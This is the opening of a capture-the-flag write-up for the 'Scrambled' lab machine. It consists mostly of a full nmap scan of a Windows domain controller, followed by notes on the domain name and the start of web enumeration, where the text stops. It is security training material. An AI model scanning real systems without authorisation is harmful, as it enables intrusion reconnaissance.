18 minutes
Scrambled Write-Up

Initial Recon
Nmap
Starting with a full tcp port scan we got the below results
$ nmap -vvv -p- -A -oN nmap/tcp-all.txt 10.10.11.168
Nmap scan report for 10.10.11.168
Host is up, received syn-ack (0.084s latency).
Scanned at 2022-09-20 03:50:10 EEST for 512s
Not shown: 65513 filtered tcp ports (no-response)
PORT STATE SERVICE REASON VERSION
53/tcp open domain syn-ack Simple DNS Plus
80/tcp open http syn-ack Microsoft IIS httpd 10.0
|_http-title: Scramble Corp Intranet
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
88/tcp open kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2022-09-20 01:05:04Z)
135/tcp open msrpc syn-ack Microsoft Windows RPC
139/tcp open netbios-ssn syn-ack Microsoft Windows netbios-ssn
389/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2022-09-20T01:08:14+00:00; +9m34s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-06-09T15:30:57
| Not valid after: 2023-06-09T15:30:57
| MD5: 679c fca8 69ad 25c0 86d2 e8bb 1792 d7c3
| SHA-1: bda1 1c23 bafc 973e 60b0 d87c c893 d298 e2d5 4233
| -----BEGIN CERTIFICATE-----
| MIIGHDCCBQSgAwIBAgITEgAAAAL3nCxaHxOhQAAAAAAAAjANBgkqhkiG9w0BAQUF
| ADBDMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFDASBgoJkiaJk/IsZAEZFgRzY3Jt
| MRQwEgYDVQQDEwtzY3JtLURDMS1DQTAeFw0yMjA2MDkxNTMwNTdaFw0yMzA2MDkx
| NTMwNTdaMBkxFzAVBgNVBAMTDkRDMS5zY3JtLmxvY2FsMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEA6NaF+YFhvKWiqzcaTT/Kyi8P+so5EJY5xrY16IA/
| DIkctXq4jI4j6BjgHRf48RSUs4EToQpP7PGH4K6NNApu4dE2Z2apc8p9EqXb454S
| f40ZGLgoBRXaZhxQu7az6I7onMBR0RUUzdB+Js3+efj85bHYGz/lkQbekNWydyVe
| DjO7CGqnl5sI+aDhS+vWaV6ODhexLeLSYZ3bn/58B5o012QDQyOrzBXa1cMOBOfI
| CIH3hDnjv3AToEqP349AJ6rWWWSxvLNPjw49Rm+DF4Eyb8irBo0P/F7jMAvlq3t+
| MdKPF9o5Nah7nu1PdVJR0Jg71aj5GJOsTZnSYoWH+CVYDQIDAQABo4IDMTCCAy0w
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUAIvSJcBszoTslWI8
| kVproj+0lTswHwYDVR0jBBgwFoAUCGlCGQotn3BwNjRGHOcdhhWbaJIwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2NybS1EQzEtQ0EsQ049REMx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG8BggrBgEFBQcBAQSBrzCBrDCBqQYIKwYBBQUHMAKGgZxsZGFwOi8vL0NOPXNj
| cm0tREMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1T
| ZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y0FDZXJ0
| aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkw
| OgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQZxIub1TYH0SkXtctiXUFOYIOREMx
| LnNjcm0ubG9jYWwwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMt
| MS01LTIxLTI3NDMyMDcwNDUtMTgyNzgzMTEwNS0yNTQyNTIzMjAwLTEwMDAwDQYJ
| KoZIhvcNAQEFBQADggEBAGZWsf9oOMhceZ7IUPGXqwTB8UaTHjw0Xyyrh9SOz2ri
| FksDqqib2V/tsWlEICxX9C+Yrusvppfz2+bpySgPCpFLIqrDes3BskJZRRrWTe8f
| vp4CcaVWnHL6wmF8SPBhp6ji8VPbprFn0TSFnOoVUIVnMefgEcOVc9OtSg//eM0y
| YaTmQZA9d3EuLfyChDmAS8skNWtkLoyenIdwLF5giPbokV3NFujT13X0YYvF/X00
| apzzgN7pH0QgDDY/+GqKzOhrZFbgdqy0M6ZFPe2OuhqTB9+yDXb5sWS6dXFGITpm
| djXHg09ap4TlzGNvRtfjNqvevFGDRHJeIGxGSoLIkDA=
|_-----END CERTIFICATE-----
445/tcp open microsoft-ds? syn-ack
464/tcp open kpasswd5? syn-ack
593/tcp open ncacn_http syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2022-09-20T01:08:14+00:00; +9m34s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-06-09T15:30:57
| Not valid after: 2023-06-09T15:30:57
| MD5: 679c fca8 69ad 25c0 86d2 e8bb 1792 d7c3
| SHA-1: bda1 1c23 bafc 973e 60b0 d87c c893 d298 e2d5 4233
| -----BEGIN CERTIFICATE-----
| MIIGHDCCBQSgAwIBAgITEgAAAAL3nCxaHxOhQAAAAAAAAjANBgkqhkiG9w0BAQUF
| ADBDMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFDASBgoJkiaJk/IsZAEZFgRzY3Jt
| MRQwEgYDVQQDEwtzY3JtLURDMS1DQTAeFw0yMjA2MDkxNTMwNTdaFw0yMzA2MDkx
| NTMwNTdaMBkxFzAVBgNVBAMTDkRDMS5zY3JtLmxvY2FsMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEA6NaF+YFhvKWiqzcaTT/Kyi8P+so5EJY5xrY16IA/
| DIkctXq4jI4j6BjgHRf48RSUs4EToQpP7PGH4K6NNApu4dE2Z2apc8p9EqXb454S
| f40ZGLgoBRXaZhxQu7az6I7onMBR0RUUzdB+Js3+efj85bHYGz/lkQbekNWydyVe
| DjO7CGqnl5sI+aDhS+vWaV6ODhexLeLSYZ3bn/58B5o012QDQyOrzBXa1cMOBOfI
| CIH3hDnjv3AToEqP349AJ6rWWWSxvLNPjw49Rm+DF4Eyb8irBo0P/F7jMAvlq3t+
| MdKPF9o5Nah7nu1PdVJR0Jg71aj5GJOsTZnSYoWH+CVYDQIDAQABo4IDMTCCAy0w
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUAIvSJcBszoTslWI8
| kVproj+0lTswHwYDVR0jBBgwFoAUCGlCGQotn3BwNjRGHOcdhhWbaJIwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2NybS1EQzEtQ0EsQ049REMx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG8BggrBgEFBQcBAQSBrzCBrDCBqQYIKwYBBQUHMAKGgZxsZGFwOi8vL0NOPXNj
| cm0tREMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1T
| ZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y0FDZXJ0
| aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkw
| OgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQZxIub1TYH0SkXtctiXUFOYIOREMx
| LnNjcm0ubG9jYWwwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMt
| MS01LTIxLTI3NDMyMDcwNDUtMTgyNzgzMTEwNS0yNTQyNTIzMjAwLTEwMDAwDQYJ
| KoZIhvcNAQEFBQADggEBAGZWsf9oOMhceZ7IUPGXqwTB8UaTHjw0Xyyrh9SOz2ri
| FksDqqib2V/tsWlEICxX9C+Yrusvppfz2+bpySgPCpFLIqrDes3BskJZRRrWTe8f
| vp4CcaVWnHL6wmF8SPBhp6ji8VPbprFn0TSFnOoVUIVnMefgEcOVc9OtSg//eM0y
| YaTmQZA9d3EuLfyChDmAS8skNWtkLoyenIdwLF5giPbokV3NFujT13X0YYvF/X00
| apzzgN7pH0QgDDY/+GqKzOhrZFbgdqy0M6ZFPe2OuhqTB9+yDXb5sWS6dXFGITpm
| djXHg09ap4TlzGNvRtfjNqvevFGDRHJeIGxGSoLIkDA=
|_-----END CERTIFICATE-----
1433/tcp open ms-sql-s syn-ack Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2022-09-20T01:08:14+00:00; +9m34s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-09-19T16:33:03
| Not valid after: 2052-09-19T16:33:03
| MD5: 273c 8bd6 b6f1 8d1c 305d 858b 16a0 0ab3
| SHA-1: 9f00 d439 36bf e405 f25e f6f8 259f eea5 a66d 64d4
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQFlmhJUE9ubFLfgHuEklivDANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjIwOTE5MTYzMzAzWhgPMjA1MjA5MTkxNjMzMDNaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAJwUOThD
| xI9qdzH62pze2vXWwAGlzCXQGWKL8RWKzDagYmowdy7VJPtfSAxqruwnTndUXec/
| DzxxA12X1MIi+yonfuaDjN2U2zwWJfL/6TtcXLOQ6KTge9tkeceFyT3o6SRUU4wC
| BtJI0cAAOFjJHMwyuhyhHMMWUr3NKVxSlm4+JJ0IbGoGiSBDFpXmK7CDCurE5/gn
| jQeYab81PgLEPZ31odQZB4SB+qxlzWtmjsza7gK3h5UNc/L26MqLoVgy+DKgVstw
| vlAi7/hRqBlGmKh27l0RfYkNdRgh41Ubm4dnZwv5IwgP2o17QG33zG/UdJhz4IUr
| DZcUSJ83SE5SdXECAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAkwE5dvp2UE799mtf
| nwVxExeOZbLsjVRaAlBCOWsy6OH0F8cnnJnbKeTndwWOCWVhLUMAGxRqrRsmtOdi
| OYqDgPYy2UlCcGeA7Ciyt3fG0erPh3fpJ/3rWEEbjdpKGfu26KLiYcVx6bZaSS/e
| Q3CR4fDCKMlfWwDyNN5+FjC8KHttRxUmYna6IPnoZeLiz4C99RquTGWPAnIB3/7P
| Ll+3+PjP7j3lWwOwT/TpJYabp33OcRWCKwzEiW2bItpB2hv0KLKcG8VVuBjINd9C
| HR7g9WVBeq9hwElNVjAQNxmD49683WUs37bSFTOipKIp/8+RReNOXjikBison7Ku
| RnjPWA==
|_-----END CERTIFICATE-----
3268/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-06-09T15:30:57
| Not valid after: 2023-06-09T15:30:57
| MD5: 679c fca8 69ad 25c0 86d2 e8bb 1792 d7c3
| SHA-1: bda1 1c23 bafc 973e 60b0 d87c c893 d298 e2d5 4233
| -----BEGIN CERTIFICATE-----
| MIIGHDCCBQSgAwIBAgITEgAAAAL3nCxaHxOhQAAAAAAAAjANBgkqhkiG9w0BAQUF
| ADBDMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFDASBgoJkiaJk/IsZAEZFgRzY3Jt
| MRQwEgYDVQQDEwtzY3JtLURDMS1DQTAeFw0yMjA2MDkxNTMwNTdaFw0yMzA2MDkx
| NTMwNTdaMBkxFzAVBgNVBAMTDkRDMS5zY3JtLmxvY2FsMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEA6NaF+YFhvKWiqzcaTT/Kyi8P+so5EJY5xrY16IA/
| DIkctXq4jI4j6BjgHRf48RSUs4EToQpP7PGH4K6NNApu4dE2Z2apc8p9EqXb454S
| f40ZGLgoBRXaZhxQu7az6I7onMBR0RUUzdB+Js3+efj85bHYGz/lkQbekNWydyVe
| DjO7CGqnl5sI+aDhS+vWaV6ODhexLeLSYZ3bn/58B5o012QDQyOrzBXa1cMOBOfI
| CIH3hDnjv3AToEqP349AJ6rWWWSxvLNPjw49Rm+DF4Eyb8irBo0P/F7jMAvlq3t+
| MdKPF9o5Nah7nu1PdVJR0Jg71aj5GJOsTZnSYoWH+CVYDQIDAQABo4IDMTCCAy0w
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUAIvSJcBszoTslWI8
| kVproj+0lTswHwYDVR0jBBgwFoAUCGlCGQotn3BwNjRGHOcdhhWbaJIwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2NybS1EQzEtQ0EsQ049REMx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG8BggrBgEFBQcBAQSBrzCBrDCBqQYIKwYBBQUHMAKGgZxsZGFwOi8vL0NOPXNj
| cm0tREMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1T
| ZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y0FDZXJ0
| aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkw
| OgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQZxIub1TYH0SkXtctiXUFOYIOREMx
| LnNjcm0ubG9jYWwwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMt
| MS01LTIxLTI3NDMyMDcwNDUtMTgyNzgzMTEwNS0yNTQyNTIzMjAwLTEwMDAwDQYJ
| KoZIhvcNAQEFBQADggEBAGZWsf9oOMhceZ7IUPGXqwTB8UaTHjw0Xyyrh9SOz2ri
| FksDqqib2V/tsWlEICxX9C+Yrusvppfz2+bpySgPCpFLIqrDes3BskJZRRrWTe8f
| vp4CcaVWnHL6wmF8SPBhp6ji8VPbprFn0TSFnOoVUIVnMefgEcOVc9OtSg//eM0y
| YaTmQZA9d3EuLfyChDmAS8skNWtkLoyenIdwLF5giPbokV3NFujT13X0YYvF/X00
| apzzgN7pH0QgDDY/+GqKzOhrZFbgdqy0M6ZFPe2OuhqTB9+yDXb5sWS6dXFGITpm
| djXHg09ap4TlzGNvRtfjNqvevFGDRHJeIGxGSoLIkDA=
|_-----END CERTIFICATE-----
|_ssl-date: 2022-09-20T01:08:14+00:00; +9m34s from scanner time.
3269/tcp open ssl/ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-06-09T15:30:57
| Not valid after: 2023-06-09T15:30:57
| MD5: 679c fca8 69ad 25c0 86d2 e8bb 1792 d7c3
| SHA-1: bda1 1c23 bafc 973e 60b0 d87c c893 d298 e2d5 4233
| -----BEGIN CERTIFICATE-----
| MIIGHDCCBQSgAwIBAgITEgAAAAL3nCxaHxOhQAAAAAAAAjANBgkqhkiG9w0BAQUF
| ADBDMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFDASBgoJkiaJk/IsZAEZFgRzY3Jt
| MRQwEgYDVQQDEwtzY3JtLURDMS1DQTAeFw0yMjA2MDkxNTMwNTdaFw0yMzA2MDkx
| NTMwNTdaMBkxFzAVBgNVBAMTDkRDMS5zY3JtLmxvY2FsMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEA6NaF+YFhvKWiqzcaTT/Kyi8P+so5EJY5xrY16IA/
| DIkctXq4jI4j6BjgHRf48RSUs4EToQpP7PGH4K6NNApu4dE2Z2apc8p9EqXb454S
| f40ZGLgoBRXaZhxQu7az6I7onMBR0RUUzdB+Js3+efj85bHYGz/lkQbekNWydyVe
| DjO7CGqnl5sI+aDhS+vWaV6ODhexLeLSYZ3bn/58B5o012QDQyOrzBXa1cMOBOfI
| CIH3hDnjv3AToEqP349AJ6rWWWSxvLNPjw49Rm+DF4Eyb8irBo0P/F7jMAvlq3t+
| MdKPF9o5Nah7nu1PdVJR0Jg71aj5GJOsTZnSYoWH+CVYDQIDAQABo4IDMTCCAy0w
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUAIvSJcBszoTslWI8
| kVproj+0lTswHwYDVR0jBBgwFoAUCGlCGQotn3BwNjRGHOcdhhWbaJIwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2NybS1EQzEtQ0EsQ049REMx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG8BggrBgEFBQcBAQSBrzCBrDCBqQYIKwYBBQUHMAKGgZxsZGFwOi8vL0NOPXNj
| cm0tREMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1T
| ZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y0FDZXJ0
| aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkw
| OgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQZxIub1TYH0SkXtctiXUFOYIOREMx
| LnNjcm0ubG9jYWwwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMt
| MS01LTIxLTI3NDMyMDcwNDUtMTgyNzgzMTEwNS0yNTQyNTIzMjAwLTEwMDAwDQYJ
| KoZIhvcNAQEFBQADggEBAGZWsf9oOMhceZ7IUPGXqwTB8UaTHjw0Xyyrh9SOz2ri
| FksDqqib2V/tsWlEICxX9C+Yrusvppfz2+bpySgPCpFLIqrDes3BskJZRRrWTe8f
| vp4CcaVWnHL6wmF8SPBhp6ji8VPbprFn0TSFnOoVUIVnMefgEcOVc9OtSg//eM0y
| YaTmQZA9d3EuLfyChDmAS8skNWtkLoyenIdwLF5giPbokV3NFujT13X0YYvF/X00
| apzzgN7pH0QgDDY/+GqKzOhrZFbgdqy0M6ZFPe2OuhqTB9+yDXb5sWS6dXFGITpm
| djXHg09ap4TlzGNvRtfjNqvevFGDRHJeIGxGSoLIkDA=
|_-----END CERTIFICATE-----
|_ssl-date: 2022-09-20T01:08:14+00:00; +9m34s from scanner time.
4411/tcp open found? syn-ack
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
| SCRAMBLECORP_ORDERS_V1.0.3;
| FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions:
| SCRAMBLECORP_ORDERS_V1.0.3;
|_ ERROR_UNKNOWN_COMMAND;
5985/tcp open http syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf syn-ack .NET Message Framing
49667/tcp open msrpc syn-ack Microsoft Windows RPC
49673/tcp open ncacn_http syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open msrpc syn-ack Microsoft Windows RPC
49702/tcp open msrpc syn-ack Microsoft Windows RPC
49706/tcp open msrpc syn-ack Microsoft Windows RPC
59897/tcp open msrpc syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4411-TCP:V=7.92%I=7%D=9/20%Time=63290F81%P=x86_64-pc-linux-gnu%r(NU
SF:LL,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(GenericLines,1D,"SCRAMBLEC
SF:ORP_ORDERS_V1\.0\.3;\r\n")%r(GetRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.
SF:3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(HTTPOptions,35,"SCRAMBLECORP_ORDER
SF:S_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RTSPRequest,35,"SCRAMBLEC
SF:ORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RPCCheck,1D,"SCR
SF:AMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(DNSVersionBindReqTCP,1D,"SCRAMBLECOR
SF:P_ORDERS_V1\.0\.3;\r\n")%r(DNSStatusRequestTCP,1D,"SCRAMBLECORP_ORDERS_
SF:V1\.0\.3;\r\n")%r(Help,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNO
SF:WN_COMMAND;\r\n")%r(SSLSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n
SF:")%r(TerminalServerCookie,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TLS
SF:SessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(Kerberos,1D,"SCRAM
SF:BLECORP_ORDERS_V1\.0\.3;\r\n")%r(SMBProgNeg,1D,"SCRAMBLECORP_ORDERS_V1\
SF:.0\.3;\r\n")%r(X11Probe,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(FourO
SF:hFourRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND
SF:;\r\n")%r(LPDString,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_
SF:COMMAND;\r\n")%r(LDAPSearchReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%
SF:r(LDAPBindReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SIPOptions,35,"
SF:SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(LANDesk
SF:-RC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TerminalServer,1D,"SCRAMB
SF:LECORP_ORDERS_V1\.0\.3;\r\n")%r(NCP,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r
SF:\n")%r(NotesRPC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(JavaRMI,1D,"S
SF:CRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(WMSRequest,1D,"SCRAMBLECORP_ORDERS
SF:_V1\.0\.3;\r\n")%r(oracle-tns,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r
SF:(ms-sql-s,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(afp,1D,"SCRAMBLECOR
SF:P_ORDERS_V1\.0\.3;\r\n")%r(giop,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n");
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| ms-sql-info:
| 10.10.11.168:1433:
| Version:
| name: Microsoft SQL Server 2019 RTM
| number: 15.00.2000.00
| Product: Microsoft SQL Server 2019
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 1433
| p2p-conficker:
| Checking for Conficker.C or higher...
| Check 1 (port 42300/tcp): CLEAN (Timeout)
| Check 2 (port 10436/tcp): CLEAN (Timeout)
| Check 3 (port 55122/udp): CLEAN (Timeout)
| Check 4 (port 31813/udp): CLEAN (Timeout)
|_ 0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
| date: 2022-09-20T01:07:39
|_ start_date: N/A
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled and required
|_clock-skew: mean: 9m34s, deviation: 0s, median: 9m33s
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 20 03:58:42 2022 -- 1 IP address (1 host up) scanned in 512.62 secondsI can see that the usual windows ports are open in addition to port 80 indicating the presence of a webserver and another weird port 4411 which nmap couldn’t identify.
I can also see the domain name leaked by ldap (port 389) scrm.local and the domain controller name DC1.scrm.local, so I’ll add these to the /etc/hosts file.
WebServer Enumeration
Moving on to the webserver, the first thing I did is to enumerate subdomains while surfing the page, but I got nothing.
Next, I’ll see what the site hides:
